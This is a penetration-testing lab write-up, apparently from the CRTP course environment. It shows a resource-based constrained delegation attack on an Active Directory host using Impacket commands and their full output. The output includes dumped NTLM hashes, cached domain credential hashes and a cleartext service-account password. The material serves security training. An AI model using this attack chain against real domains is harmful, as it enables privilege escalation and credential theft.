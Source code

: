 #### Theory can be found in [[2. Domain Privilege Escalation#5. RBCD]] ####

- `dcorp\ciadmin` has GenericWrite permissions (BloodHound) over `DCORP-MGMT` which allows an RCDB abuse.
- Add a new computer that will be used for the attack. 
```
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CRTP]
└─# impacket-addcomputer dollarcorp.moneycorp.local/ciadmin:'*ContinuousIntrusion123' -method LDAPS -computer-name 'WS007$' -computer-pass 'Password123!' -dc-ip 172.16.2.1 -domain-netbios dollarcorp.moneycorp.local 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account WS007$ with password Password123!.
```

- Modify the target object so that the attacker-controlled computer can delegate to it.
```
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CRTP]
└─# impacket-rbcd dollarcorp.moneycorp.local/ciadmin:'*ContinuousIntrusion123' -delegate-from 'WS007$' -delegate-to 'DCORP-MGMT$' -action 'write'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] WS007$ can now impersonate users on DCORP-MGMT$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     WS007$       (S-1-5-21-719815819-3726368948-3917688648-17101)
```

- Request a TGS for the service name we want to pretend to have administrative privileges for.
```
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CRTP]
└─# impacket-getST dollarcorp.moneycorp.local/'WS007$':'Password123!' -spn cifs/dcorp-mgmt.dollarcorp.moneycorp.local -impersonate Administrator 
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

- Use the requested TGS to access `DCORP-MGMT`.
```
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CRTP]
└─# impacket-secretsdump dollarcorp.moneycorp.local/Administrator@DCORP-MGMT.DOLLARCORP.MONEYCORP.LOCAL -k -no-pass                             
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x6ccf075765eb06dec2c85646e11ac0e5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cda7ba90f97db93107a190469cd3201b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
DOLLARCORP.MONEYCORP.LOCAL/svcadmin:$DCC2$10240#svcadmin#80dcb7982483a2ee1aaa9ef2da703179: (2022-11-15 03:33:58)
DOLLARCORP.MONEYCORP.LOCAL/mgmtadmin:$DCC2$10240#mgmtadmin#b51b86694af5c690d2ad019fbfc00707: (2023-03-04 09:41:21)

<snip>

NL$KM:09c87bc296416ecbb2f61bdc295c39767ea62297dcd3be6bc3714871616bb2b3d0d6e048f08b7d8b8b149505b421fe93285147f12624b5f4e420b6ace5903302
[*] _SC_MSSQLSERVER 
dcorp\svcadmin:*ThisisBlasphemyThisisMadness!!
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

- `dcorp\svcadmin` is a DA.